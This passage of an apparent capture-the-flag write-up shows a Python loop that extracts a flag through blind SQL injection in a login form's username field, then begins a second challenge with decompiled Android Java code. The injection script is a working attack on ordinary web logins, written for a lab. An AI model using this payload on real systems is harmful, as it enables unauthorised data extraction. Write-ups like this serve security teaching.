 ```python

while '}' not in flag:
    for c in chars: 
        burp0_data = {"username": f"test' or user ~ '^{flag+c}'--", "password": "test"}
        res = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
        print("Trying", burp0_data)
        if "Welcome" in res.text:
            flag += c
            print("Found", flag)
            break
        time.sleep(2)
```

![Untitled](Getting%20Started%20f34a798005da4350ab7e171af2b4cb23/Untitled%2021.png)

FLAG: ASCWG{YEAH_YOU_DID_IT}
— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 

Lost & found

![Untitled](Getting%20Started%20f34a798005da4350ab7e171af2b4cb23/Untitled%2022.png)

This challenge was quite easy, so to speed things up, I’ll just show you the imported Java code in the application.

![Untitled](Getting%20Started%20f34a798005da4350ab7e171af2b4cb23/Untitled%2023.png)

clearFilesDirectory

```java
/* JADX INFO: Access modifiers changed from: private */
private final void clearFilesDirectory() {
    File[] listFiles = getFilesDir().listFiles();
    if (listFiles != null) {
        for (File file : listFiles) {
            try {
                Intrinsics.checkNotNull(file);
                FilesKt.a(file);
            } catch (IOException e2) {
                e2.printStackTrace();
            }
        }
    }
}
```

- This method clears the files in the app's internal files directory.
- `getFilesDir()` retrieves the directory.

onCrate Method

```java
@Override // e.AbstractActivityC0059i, androidx.activity.k, H.h, android.app.Activity
public final void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    setContentView(R.layout.activity_main);
    BuildersKt__Builders_commonKt.launch$default(CoroutineScopeKt.CoroutineScope(Dispatchers.getIO()), null, null, new a(this, null), 3, null);
}

```
